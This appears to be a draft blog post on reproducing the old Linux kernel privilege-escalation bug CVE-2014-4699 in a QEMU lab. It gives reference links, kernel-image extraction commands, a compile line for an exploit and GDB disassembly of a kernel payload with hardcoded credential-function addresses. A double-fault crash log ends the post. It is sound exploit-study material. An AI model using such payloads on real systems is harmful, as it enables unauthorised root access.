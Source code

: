 ```yaml
---
layout: post
comments: true
title: "Resurrect an old vulnerability: CVE-2014-4699"
tags: [CVE, linux, gdb, kernel]
---
```


http://uaf.io/exploitation/misc/2016/09/10/Kernel-Exploitation-for-Dummies.html
http://snapshot.debian.org/
http://archive.ubuntu.com/ubuntu/pool/main/l/linux/

https://rlworkman.net/system.map/
https://www.elinux.org/Debugging_The_Linux_Kernel_Using_Gdb
https://01.org/linuxgraphics/gfx-docs/drm/dev-tools/gdb-kernel-debugging.html
https://www.kernel.org/doc/html/v4.11/dev-tools/gdb-kernel-debugging.html
https://stackoverflow.com/questions/26271901/is-it-possible-to-use-gdb-and-qemu-to-debug-linux-user-space-programs-and-kernel
https://github.com/torvalds/linux/blob/master/scripts/gdb/vmlinux-gdb.py
https://kernelnewbies.org/FAQ/BUG

[writeup](http://cyseclabs.com/page?n=21072014)
http://blackbunny.io/linux-kernel-x86-64-bypass-smep-kaslr-kptr_restric/
https://github.com/SecWiki/linux-kernel-exploits/tree/master/2014/CVE-2014-4699

```
$ od -t x1 -A d linux_image/boot/vmlinuz-3.2.0-23-generic | grep "1f 8b 08"
0018016 48 8d 83 50 37 4b 00 ff e0 1f 8b 08 00 00 00 00
$ dd if=linux_image/boot/vmlinuz-3.2.0-23-generic bs=1 skip=0018025 | zcat > vmlinux
4947815+0 record dentro
4947815+0 record fuori
4947815 bytes (4,9 MB, 4,7 MiB) copied, 3,25252 s, 1,5 MB/s

gzip: stdin: decompression OK, trailing garbage ignored
$ file vmlinux
vmlinux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=6171fe7a98b41dfbe7ed9afa8b1c033f3acaff9c, stripped
```

```
$ gcc -g -Wall cve-2014-4699.c -o cve-2014-4699 -static
```

``-static`` because I'm using a ``buildroot`` generated machine without
the library of an Ubuntu installation.

```
gef➤  x/30i tmp - 15
   0x8ffffbf1:  nop
   0x8ffffbf2:  nop
   0x8ffffbf3:  swapgs               <--- tmp - 13
   0x8ffffbf6:  call   0x8ffffc00
   0x8ffffbfb:  swapgs 
   0x8ffffbfe:  iretq                <--- end 2nd memcpy()
   0x8ffffc00:  push   rbp           <--- start payload
   0x8ffffc01:  mov    rbp,rsp
   0x8ffffc04:  sub    rsp,0x20
   0x8ffffc08:  mov    QWORD PTR [rbp-0x8],0xffffffff81dd70e8
   0x8ffffc10:  mov    rax,QWORD PTR [rbp-0x8]
   0x8ffffc14:  mov    DWORD PTR [rax],0xffffffff
   0x8ffffc1a:  mov    QWORD PTR [rbp-0x10],0xffffffff81091630
   0x8ffffc22:  mov    QWORD PTR [rbp-0x18],0xffffffff810918e0
   0x8ffffc2a:  mov    rax,QWORD PTR [rbp-0x18]
   0x8ffffc2e:  mov    edi,0x0
   0x8ffffc33:  call   rax
   0x8ffffc35:  mov    rdx,rax
   0x8ffffc38:  mov    rax,QWORD PTR [rbp-0x10]
   0x8ffffc3c:  mov    rdi,rdx
   0x8ffffc3f:  call   rax
   0x8ffffc41:  nop
   0x8ffffc42:  leave  
   0x8ffffc43:  ret
```

```
$ qemu-system-x86_64 \
    -hda output/images/rootfs.ext2 \
    -m 1024 \
    -enable-kvm \
    -kernel linux_image/boot/vmlinuz-3.2.0-23-generic \
    -append 'root=/dev/sda \
    console=tty0 console=ttyS0 rw' \
    -net nic,model=virtio -net user,hostfwd=tcp::2222-:22 \
    -S -s  \
    -serial stdio
 ...
[    7.721360] double fault: 0000 [#1] SMP 
[    7.721360] CPU 0 
[    7.721360] Modules linked in:
[    7.721360] 
[    7.721360] Pid: 121, comm: cve-2014-4699 Not tainted 3.2.0-23-generic #36-Ubuntu QEMU Standard PC (i440FX + PIIX, 1996)
[    7.721360] RIP: 0010:[<000000008ffffbfe>]  [<000000008ffffbfe>] 0x8ffffbfd
[    7.721360] RSP: 0018:ffffffff81dd7010  EFLAGS: 00010046
[    7.721360] RAX: 0000000000000000 RBX: 0000000000000001 RCX: 00000000ffffffff
[    7.721360] RDX: ffffffff81c31b00 RSI: ffffffff81091300 RDI: 0000000000000086
[    7.721360] RBP: ffffffff81dd7068 R08: 0000000000000000 R09: ffff88003ce4c0c0
[    7.721360] R10: 81668e0000106b10 R11: 0000000000000246 R12: ffffffff81dd7078
[    7.721360] R13: 0000000000000000 R14: 81668e0200106a90 R15: 00000000ffffffff
[    7.721360] FS:  0000000001433880(0063) GS:ffff88003fc00000(0000) knlGS:0000000000000000
[    7.721360] CS:  0010 DS: 0000 ES: 0000 CR0: 000000008005003b
[    7.721360] CR2: 000000000000c500 CR3: 000000003cfe8000 CR4: 00000000000006f0
[    7.721360] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[    7.721360] DR3: 0000000000000000 DR6: 00000000ffff0ff0 DR7: 0000000000000400
[    7.721360] Process cve-2014-4699 (pid: 121, threadinfo ffff88003cff4000, task ffff88003cf9c4d0)
[    7.721360] Stack:
[    7.721360]  0000000000000000 ffffffff8165d06f 0000000000000010 0000000000010046
[    7.721360]  ffffffff81dd7048 0000000000000018 8166ee0000106a10 00000000ffffffff
[    7.721360]  0000000000000001 81668e0000106ac0 00000000ffffffff 00000000ffffffff
[    7.721360] Call Trace:
[    7.721360] Code:  Bad RIP value.
[    7.721360] RIP  [<000000008ffffbfe>] 0x8ffffbfd
[    7.721360]  RSP <ffffffff81dd7010>
[    7.721360] ---[ end trace c1b610693687e90e ]---
```

This is a [double fault](https://en.wikipedia.org/wiki/Double_fault)
